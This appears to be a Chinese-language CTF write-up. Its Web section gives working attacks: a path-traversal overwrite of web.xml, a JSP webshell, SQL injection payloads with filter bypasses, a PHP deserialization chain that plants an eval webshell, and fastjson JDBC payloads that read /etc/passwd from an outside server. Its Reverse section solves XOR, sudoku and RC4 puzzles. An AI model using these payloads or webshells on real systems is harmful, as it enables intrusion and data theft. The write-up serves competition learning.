

传一个 jsp 马上去，发现 jsp 后缀被过滤了，重命名文件也无果。

这边可以考虑操作一下 /WEB-INF/web.xml 这个配置文件，让其解析其他文件为 jsp，然后连接。

修改解析方式通过 mapping 实现，这里把所有 .xml 文件都解析为了 jsp。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0">
  <servlet>
    <servlet-name>xml</servlet-name>
    <servlet-class>org.apache.jasper.servlet.JspServlet</servlet-class>
  </servlet>
  <servlet-mapping>
    <servlet-name>xml</servlet-name>
    <url-pattern>*.xml</url-pattern>
  </servlet-mapping>
</web-app>


```

直接上传，然后修改文件名为 ../WEB-INF/web.xml，这样就可以恶意修改掉 web.xml。



然后再传一个 shell.xml 文件，内容是 jsp 马的内容，上传后访问他就相当于访问了 shell.jsp。

```java
<%!
class U extends ClassLoader {
    U(ClassLoader c) {
        super(c);
    }
    public Class g(byte[] b) {
        return super.defineClass(b, 0, b.length);
    }
}

public byte[] base64Decode(String str) throws Exception {
    try {
        Class clazz = Class.forName("sun.misc.BASE64Decoder");
        return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
    } catch (Exception e) {
        Class clazz = Class.forName("java.util.Base64");
        Object decoder = clazz.getMethod("getDecoder").invoke(null);
        return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
    }
}
%>
<%
String cls = request.getParameter("passwd");
if (cls != null) {
    new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
}
    %>


```


根目录发现 flag。

## sInXx


有个查询功能，手玩一下，发现是个 sql 注入，过滤了很多东西。

只要输入的字符串包含不是已有的名字，并且是被过滤的内容，就会回显所有内容，借助这一特征，可以大致把黑名单跑出来。

```plain
&
&&

+
,
|
or
||
--+
end
mid
xor
>
<
from
left
like
ascii
sleep
rlike
right
order
floor
union
where
regexp
select
substr
<>
information


```

试一下发现可以大写绕过。

:::color5
为了方便看，先忽略了绕过空格，也就是正常的 payload 需要把空格替换成 /**/

:::

```sql
1' UNION SELECT * FROM ((SELECT 1)A join (SELECT 2)B join (SELECT 3)C join (SELECT 4)D join (SELECT 5)E)#


```


查一下库名，information 被过滤了，这里可以使用 sys.schema_table_statistics_with_buffer。

```sql
1' UNION SELECT * FROM ((SELECT 1)A join (SELECT 2)B join (SELECT 3)C join (SELECT 4)D join (SELECT group_concat(table_name) FROM sys.schema_table_statistics_with_buffer WHERE table_schema=database())E)#


```


由于 information 被过滤，这里得走无列名注入。

```sql
1' UNION SELECT * FROM (SELECT * FROM ((SELECT 5)E JOIN (SELECT 1)A JOIN (SELECT 2)B JOIN (SELECT 3)C JOIN (SELECT 4)D) UNION SELECT * FROM ((SELECT 1)A JOIN (SELECT 2)B JOIN (SELECT 3)D JOIN(SELECT * FROM DataSyncFLAG)C))AS A#


```


## pExpl
```php
 <?php
error_reporting(0);


class FileHandler {
    private $fileHandle;
    private $fileName;

    public function __construct($fileName, $mode = 'r') {
        $this->fileName = $fileName;
        $this->fileHandle = fopen($fileName, $mode);
        if (!$this->fileHandle) {
            throw new Exception("Unable to open file: $fileName");
        }
        echo "File opened: $fileName\n";
    }

    public function readLine() {
        return fgets($this->fileHandle);
    }

    public function writeLine($data) {
        fwrite($this->fileHandle, $data . PHP_EOL);
    }

    public function __destruct() {
        if (file_exists($this->fileName) &&!empty($this->fileHandle)) {
            fclose($this->fileHandle);
            echo "File closed: {$this->fileName}\n";
        }
    }
}

class User {

    private $userData = [];

    public function __set($name, $value) {
        if ($name == 'password') {
            $value = password_hash($value, PASSWORD_DEFAULT);
        }
        $this->userData[$name] = $value;
    }

    public function __get($name) {
        return $this->userData[$name] ?? null;
    }

    public function __toString() {
        if(is_string($this->params) && is_array($this->data) && count($this->data) > 1){
            call_user_func($this->data,$this->params);
        }
        return "Hello";
    }

    public function __isset($name) {
        return isset($this->userData[$name]);
    }
}

class Logger {
    private $logFile;
    private $lastEntry;

    public function __construct($logFile = 'application.log') {
        $this->logFile = $logFile;
    }

    private function log($level, $message) {
        $this->lastEntry = "[" . date("Y-m-d H:i:s") . "] [$level] $message" . PHP_EOL;

        file_put_contents($this->logFile, $this->lastEntry, FILE_APPEND);
    }

    public function setLogFile($logFile) {
        $this->logFile = $logFile;
    }

    public function clearOldLogs($daysToKeep = 30) {
        $files = glob("*.log");
        $now = time();
        foreach ($files as $file) {
            if (is_file($file)) {
                if ($now - filemtime($file) >= 60 * 60 * 24 * $daysToKeep) {
                    unlink($file);
                }
            }
        }
    }

    public function __call($name, $arguments) {

        $validLevels = ['info', 'warning', 'error', 'debug'];
        if (in_array($name, $validLevels)) {
            $this->log(strtoupper($name), $arguments[0]);
        } else {
            throw new Exception("Invalid log level: $name");
        }
    }

    public function __invoke($message, $level = 'INFO') {
        $this->log($level, $message);
    }
}

if(isset($_GET['exp'])) {
    if(preg_match('/<\?php/i',$_GET['exp'])){
        exit;
    }
    $exp = unserialize($_GET['exp']);
    throw new Exception("Test!");
} else {
    highlight_file(__FILE__);
} 


```

考察反序列化，没有找到可以 RCE 的地方，应该是要写个马进去。

符合条件的只有 Logger 类的 log 方法了，里面有个 file_puts_contents。

想要调用这个 log 方法，可以借助 Logger 类的 __invoke 魔术方法，User 类的 call_user_func 就能触发。

想要触发 User 类的 __toString 魔术方法，可以借助 FileHandler 类的 file_exists，这里不管是否存在指定文件，只有这个类被作为参数传入 file_exists 函数，就会触发他的 __toString 魔术方法。

由此一来，我们的链子就出来了。


     destruct             toString        invoke

木马的内容不能出现 <?php，很简单，直接用 <?= 代替即可。

注意反序列化后有个 throw new Exception("Test!"); 这玩意需要绕一下，否则无法触发 FileHandler 类的 __destruct 魔术方法，这里可以用 fast destruct，把生成的 payload 的最后一个大括号去掉即可。

```php
<?php
error_reporting(0);
class FileHandler {
    private $fileHandle='111';
    private $fileName;
    public function SetFileName($fileName){
        $this->fileName = $fileName;
    }
    public function __destruct() {
        if (file_exists($this->fileName) &&!empty($this->fileHandle)) {
            fclose($this->fileHandle);
            echo "File closed: {$this->fileName}\n";
        }
    }
}
class User {
    private $userData = [];
    public function setUserData($userData){
        $this->userData = $userData;
    }
    public function __toString() {
        if(is_string($this->params) && is_array($this->data) && count($this->data) > 1){
            call_user_func($this->data,$this->params);
        }
        return "Hello";
    }
}
class Logger {
    private $logFile;
    private $lastEntry;
    public function __construct($logFile = 'shell.php') {
        $this->logFile = $logFile;
    }
    private function log($level, $message) {
        $this->lastEntry = "[" . date("Y-m-d H:i:s") . "] [$level] $message" . PHP_EOL;

        file_put_contents($this->logFile, $this->lastEntry, FILE_APPEND);
    }
    public function __invoke($message, $level = 'INFO') {
        $this->log($level, $message);
    }
}
$user = new User();
$logger = new Logger();
$temp = array(
    'data' => array($logger,'info'),
    'params' => '<?=@eval($_POST[a]); ?>'
);
$user->setUserData($temp);
$filehandler = new FileHandler();
$filehandler->SetFileName($user);
echo urlencode(serialize($filehandler));


```

:::color2
O%3A11%3A%22FileHandler%22%3A2%3A%7Bs%3A23%3A%22%00FileHandler%00fileHandle%22%3Bs%3A3%3A%22111%22%3Bs%3A21%3A%22%00FileHandler%00fileName%22%3BO%3A4%3A%22User%22%3A1%3A%7Bs%3A14%3A%22%00User%00userData%22%3Ba%3A2%3A%7Bs%3A4%3A%22data%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A6%3A%22Logger%22%3A2%3A%7Bs%3A15%3A%22%00Logger%00logFile%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A17%3A%22%00Logger%00lastEntry%22%3BN%3B%7Di%3A1%3Bs%3A4%3A%22info%22%3B%7Ds%3A6%3A%22params%22%3Bs%3A23%3A%22%3C%3F%3D%40eval%28%24_POST%5Ba%5D%29%3B+%3F%3E%22%3B%7D%7D

:::

用蚁剑连接 shell.php 即可。

## FastDB


可以传 json，应该是个 fastjson。

试着打了一下 JDBC 反序列化，用 vps 启了一个 MySQL_Fake_Server 服务，传了下面的 payload，发现有响应，但是读不到东西。

```json
{ "name": { "@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "x.x.x.x", "portToConnectTo": 3306, "info": { "user": "fileread_/etc/passwd", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" } }
```


试了很多类似的 payload，都行不通。

最后找到了这个文章，用里面的 payload 打通了。

[VCTF-archived elephant - gxngxngxn - 博客园 (cnblogs.com)](https://www.cnblogs.com/gxngxngxn/p/18081452)

```json
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"x.x.x.x","portToConnectTo": 3306,"databaseToConnectTo":"test","info":{"@type":"java.util.Properties","PORT":" 3306","allowUrlInLocalInfile":"true","allowLoadLocalInfile":"true","allowLoadLocalInfileInPath":"/","maxAllowedPacket":"655360","user":"fileread_/etc/passwd","PORT.1":" 3306","HOST.1":"x.x.x.x","NUM_HOSTS":"1","HOST":"x.x.x.x","DBNAME":"test"}}
```


```json
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"x.x.x.x","portToConnectTo": 3306,"databaseToConnectTo":"test","info":{"@type":"java.util.Properties","PORT":" 3306","allowUrlInLocalInfile":"true","allowLoadLocalInfile":"true","allowLoadLocalInfileInPath":"/","maxAllowedPacket":"655360","user":"fileread_/flag","PORT.1":" 3306","HOST.1":"x.x.x.x","NUM_HOSTS":"1","HOST":"x.x.x.x","DBNAME":"test"}}
```


成功读到 flag。


# <font style="color:#4861E0;">R</font><font style="color:#000000;">everse</font>
## xor
用 DIE 看了一下，发现有个 UPX 壳，直接 upd -d 脱壳。


逆一下，就是个简单的异或。

:::danger
nc 连接直接复制密文可能带有不可见字符，异或出来的 flag 可能是错的，需要用 pwntools 交互一下（后面好像修复了，变成输入 16 进制数了，这里就用 cyberchef 了）

:::


## ezgo


这里很明显是一个加密，异或了 v4 + 53，v4 每次加一。

nc 取一下密文，直接每次异或 (53+索引值) 即可。

```python
enc = [108,122,116,108,127,65,9,12,91,11,7,115,112,114,110,118,116,34,33,101,125,126,40,126,96,119,120,103,48,127,49,50,48,110,103,104,63,57,108,57,107,56,34]
flag = ''
pos = 53
for i in range(len(enc)):
    flag += chr(enc[i]^pos)
    pos+=1
print(flag)
#YLCTF{20f58310-21df-44c2-977a-bfe800fc7e6f}


```

## math


读入一个 9*9 矩阵，当前位是 0 的话就接受用户的输入。

后面有个 check 进去看一下。


就是检测每行每列的和是否都为 45，符合条件就给出 flag。

思考一下，9*9 的矩阵，要求每行每列的和都是 45，也就是说每行每列，1-9 这 9 个数都只能出现一次，这不就是数独吗？

动调一下，发现矩阵一开始就有一些数，原来前面还有个 init 函数用来初始化矩阵，提前填了一些数，全部取出来即可。

```plain
1 0 0 2 0 0 3 0 0 
0 4 0 0 5 0 0 6 0 
0 0 7 0 0 8 0 0 9 
0 1 0 0 2 0 0 3 0 
0 0 4 0 0 5 0 0 6 
7 0 0 8 0 0 9 0 0 
0 0 1 0 0 2 0 0 3 
4 0 0 5 0 0 6 0 0 
0 7 0 0 8 0 0 9 0 


```

然后使用在线数独求解器。


nc 交互，把空位上面的数字依次输入，然后得到 flag。

## calc
拿到一个 .c 文件，点开发现一大堆 #define，数量不是很多，直接手动替换，得到完整代码。

换行都没了，很丑，手动修复一下。

```c
#include<stdio.h>
#include<math.h>
#include<string.h>
#include<stdlib.h>
typedef struct Stack {
    double* top;
    double* low;
    int size;
}
stack;
void init(stack* s) {
    s->low = (double*)malloc((sizeof(double)));
    s->top = s->low;
    s->size = 100;
}
void push(stack* s, double e) {
    *(s->top) = e;
    s->top++;
}
static void pop(stack* s, double* e) {
    *e = *--(s->top);
}
int main() {
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    stack s;
    char ch;
    double d, e;
    printf("d=%lf\n",d);
    printf("e=%lf\n",e);
    char num[100];
    int  i = 0;
    init(&s);
    puts("input data , end of '#'");
    scanf("%s", &ch);
    while (ch != '#') {
        while (ch >= '0' && ch <= '9') {
            num[i] = ch;
            scanf("%c", &ch);
            if (ch == ' ') {
                d = atof(num);
                push(&s, d);
                //printf("%d",d);
                i = 0;
                break;
            }
        }
        switch (ch) {
            case'+':pop(&s, &d);
            pop(&s, &e);
            push(&s, e + d);
            break;
            case'-':pop(&s, &d);
            pop(&s, &e);
            push(&s, e - d);
            break;
            case'*':pop(&s, &d);
            pop(&s, &e);
            push(&s, e * d);
            break;
            case'/':pop(&s, &d);
            pop(&s, &e);
            push(&s, e / d);
            break;
        }
        scanf("%c", &ch);
    }
    pop(&s, &d);
    printf("%lf\n",d);
    printf((d==125?"YES":"NO"));
    if (d == 125) {
        printf("%s", getenv("GZCTF_FLAG"));
    }
}
```

大致就是模拟了一个计算器，用手写栈实现，要求运算结果是 125。

可以直接用 5*5*5，需要根据代码改一下格式。

读入的数后面必须加空格，读入运算符会把当前数字和栈顶的数字进行运算，井号代表算式结束。

构造一个算式，使用 `5 +5 *5 *#` 即可。


## xorplus


看一下是个 RC4，是吗？稍微魔改了一下。


可以看到 RC4 以后又加了 20，那就先减回去再解 RC4。

这里为了方便，动调直接把异或的值取出来，然后 nc 取一下密文跑一下即可。

:::danger
动调可能会卡在输出获取 GZCTF_FLAG 环境变量的时候，自己随便赋个变量，或者把这行 patch 掉都行。

:::

```python
key =[0x24,0x3e,0x44,0x4d,0xcc,0x20,0x71,0x2b,0x56,0xee,0xbd,0xbb,0x88,0x4c,0x23,0x30,0x1f,0xea,0x7a,0x34,0x58,0x23,0x50,0x31,0x75,0x3,0xe,0x6,0xe,0x3f,0x97,0xb2,0x12,0x54,0x2c,0x88,0x90,0x58,0x77,0xd7,0xc1,0x10,0xef,0x8c,0x83,0x1d,0xe1,0xf7,0x2d,0x4b,0x73,0xcc,0x69,0xb0,0x3,0x1e,0xb4,0x2c,0xa1,0xe1,0xbb]
enc = [0x91,0x86,0x1b,0x2d,0x9e,0x6f,0x26,0x5c,0x7a,0xec,0xed,0xa0,0xfd,0x91,0x22,0x68,0x8d,0x9c,0x56,0x2d,0x80,0x25,0x47,0x14,0x6c,0x4e,0x51,0x52,0x4b,0x26,0x7,0xe8,0x35,0x4a,0x61,0xfd,0xbd,0x7e,0x63,0xfb,0x8,0x38,0xa6]
flag = ''
for i in range(len(enc)):
    flag+=chr(((enc[i]-20)^key[i])&0xff)
print(flag)
#YLCTF{cc06d7a1-dfb8-42c1-9389-df3baa928054}


```

